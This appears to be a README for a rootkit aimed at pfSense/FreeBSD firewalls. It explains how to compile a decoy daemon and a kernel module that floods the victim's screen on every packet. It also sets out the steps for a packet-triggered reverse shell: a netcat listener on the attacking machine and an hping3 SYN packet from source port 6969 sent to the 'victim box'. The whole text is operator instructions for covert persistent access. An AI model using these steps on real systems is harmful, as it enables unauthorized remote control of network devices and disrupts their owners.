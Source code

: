 The "unused" directory holds the c code that compiles binaries.

To compile "apeshit" within pfsense you need to use "clang15 -I/sys -o apeshit apeshit_daemon.c" since stdio.h doesn't k know the path of cdefs.h. 

"apeshit_damon.c" produces "apeshit" which is a binary that creates a daemon that sleeps infinitly and is named apeshit, you can see it with "pgrep -l apeshit".

"brickbox.ko" posts an image and funny message everytime a packet comes in or goes out, this can actually be stopped by running <kldunload brickbox.ko> but who da hell is gonna know dat.  It is completely still possible to run commands but the screen prints really fast so it is hard to see shit.  Inside unused is "make_brick_box_face.c" which has comments at the top for the makefile and creates this bin.

We use socat since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.
Run "nc -lvnp <port>" on the attaking machine before asking for a reverse shell since you need to be listening for it, this can be any port BESIDES 6969.
To construct a packet that will trigger the packet filtering and send a reverse shell simply run
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
from your host machine targeting the ip of the victim box that has the rootkit, currently any destination port works.
